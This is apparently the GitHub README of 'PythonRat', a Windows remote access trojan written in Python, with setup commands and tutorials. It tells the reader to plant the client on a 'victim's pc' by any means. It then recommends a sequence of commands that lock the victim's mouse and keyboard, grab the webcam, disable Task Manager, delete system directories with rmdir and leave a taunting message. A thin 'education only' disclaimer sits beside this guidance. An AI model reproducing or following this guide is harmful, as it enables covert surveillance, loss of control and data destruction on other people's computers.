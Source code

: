 # PythonRat
Tuto on YouTube !

[YT Tuto](https://youtu.be/emp6ClyuJTI)

[MP4 Tuto](https://anonfiles.com/z7o8tdldz1/YTTutoRAT_mp4)

#  Help
Any questions ?

Come to discord !

!Kami#0001

# Summary
### + [Help](https://github.com/KamiHateOmg/PythonRat/edit/main/README.md#help)
### + [Disclamer](https://github.com/KamiHateOmg/PythonRat/edit/main/README.md#disclamer)
### + [Intended for ?](https://github.com/KamiHateOmg/PythonRat/edit/main/README.md#intended-for)
### + [Requirements](https://github.com/KamiHateOmg/PythonRat/edit/main/README.md#requirements)
### + [Server Usage](https://github.com/KamiHateOmg/PythonRat/edit/main/README.md#usage-for-server)
### + [Client Usage](https://github.com/KamiHateOmg/PythonRat/edit/main/README.md#usage-for-client)
### + [F*ck a pc ?](https://github.com/KamiHateOmg/PythonRat/edit/main/README.md#how-to-proprely-fck-a-pc)

## Disclamer

THIS SOFTWARE IS INTENDED ONLY FOR EDUCATION PURPOSES! DO NOT USE IT TO INFLICT 
DAMAGE TO ANYONE! USING MY APPLICATION YOU ARE AUTHOMATICALLY AGREE WITH ALL RULES AND
TAKE RESPONSIBITITY FOR YOUR ACTION! THE VIOLATION OF LAWS CAN CAUSE SERIOUS CONSEQUENCES!
THE DEVELOPER KamiHateOMG ASSUMES NO LIABILITY AND IS NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE 
CAUSED BY THIS PROGRAM.

## Intended for:
Windows systems

## Requirements
+ Pillow
+ pywin32
+ opencv-python
+ comtypes 
+ pycaw ([C++ Buils tools](https://visualstudio.microsoft.com/ru/visual-cpp-build-tools/) are required) (optional feature)
+ pyautogui
+ vidstream ([VS Code](https://code.visualstudio.com/) is required) (optional feature)
# Usage for server
```
git clone https://github.com/KamiHateOmg/PythonRat

cd PythonRat

pip install -r server_requirements.txt
 
python server.py
```
# Usage for client
```
git clone https://github.com/KamiHateOmg/PythonRat

cd PythonRat

pip install -r client_requirements.txt

python client.pyw
```
# Text Tuto

## On your pc : 
+ Go to an empty directory. Now go to Visual Studio Code and open the empty directory.

+ You will need to clone the repo, so you have to use [git](https://github.com/git-for-windows/git/releases/download/v2.40.0.windows.1/Git-2.40.0-64-bit.exe).

+ Then, run the command `cd PythonRat` to get into the Rat directory.

+ Now, run the command `pip install -r server_requirements.txt`, this will install all the required files.

To launch the server, just run `python server.py`, and now wait for the victim to run the client.pyw.

## On the victim's pc :
+ By any way, put by yourself or make the victim put the client.pyw and the client_requirements.txt on the victim's pc in any directory.

+ Now open a cmd in the directory on the victim's pc, and type `pip install -r client_requirements.txt`

+ Then run `python client.pyw`

#### When it's done, you will receive the help on your pc.

# How to proprely f*ck a pc.

When the victim has launched the RAT, type this command : `disable --all`, the victim will no longer be able to move her mouse or her keyboard.

Then, i recommend to use these commands : `webcam`, `disabletaskmgr`, `writein YOU ARE NOW FUCKED ! GOODBY AMIGOS HAHAHA`, `browser`, `systeminfo`, `volumeup`, `sendmessage`, `rmdir "C:\system"`, `rmdir "C:\system64"` and you can finish with the `kill` command. ;)


## Features
![Features](https://user-images.githubusercontent.com/92334349/151528654-e2c6ffb4-33df-430b-a965-07fac7773c19.png)

![Features](https://user-images.githubusercontent.com/92334349/151528715-c83b5d21-4df4-4143-acf4-a67907e180de.png)
